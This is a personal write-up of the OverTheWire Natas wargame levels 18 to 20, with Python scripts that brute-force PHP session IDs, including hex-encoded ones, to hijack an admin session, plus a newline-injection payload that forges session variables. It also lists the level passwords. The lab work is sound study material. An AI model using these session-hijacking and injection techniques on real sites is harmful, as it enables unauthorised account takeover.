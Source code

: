 
2024-07-20 16:35

Source: #web #py #natas 

Tags: [[PHP]]
## Natas 18 

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```python
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR

we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

## Natas19

source code is similar to natas 18 the difference is that the `phpsessid` is  encoded in hex and the username is appended to the session id before encoding the whole .
eg. `45-admin` is encoded and used as the session id 

```python
import requests
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

url = 'http://natas19.natas.labs.overthewire.org/'
session = requests.Session()

for i in range(641):
    print({"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()})

    response= session.get(url,cookies = {"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()},auth = (username,password))

    if("You are an admin" in response.text):
        print("got it", i)
        print(response.text)
        break
```
### TLDR

- we run a for loop ranging from 1 to 640 and we apply the loop in `<number>-admin` 
- where `<number>` is cycled through and the whole thing is encoded in hex 
- one of these encoded session id is gotta be the admin session id.
## Natas 20

- here 2 functions are defined namely read and write 
- `read` function 
	- checks if a file path exists corresponding to a session id if not then creates one 
	- it reads the contents from the file creating an array and then process the data bit by bit using the `explode` function
- `write` function 
	- works with the same file name as read, it uses simply writes the output from the server to a file 
Whole code is operating in a session thus we add more code to existing code

```python
import requests
username = 'natas20'
password = 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw'

url = 'http://natas20.natas.labs.overthewire.org/?debug=true'
session = requests.Session()

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#create a session id 

response= session.post(url,data={"name":"bmth\nadmin 1"},auth = (username,password))
print(response.text)
print("="*80)
#exploiting the explode functionality we add a new line and change admin to 1

response= session.post(url,auth = (username,password))
print(response.text)
print("="*80)
#this is just to check if we are still admin or not 
```
they're just splitting up variables line by line and with a space in between each thing we could just as easily add a new line and change whatever session variables we really wanted to

### Reference
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid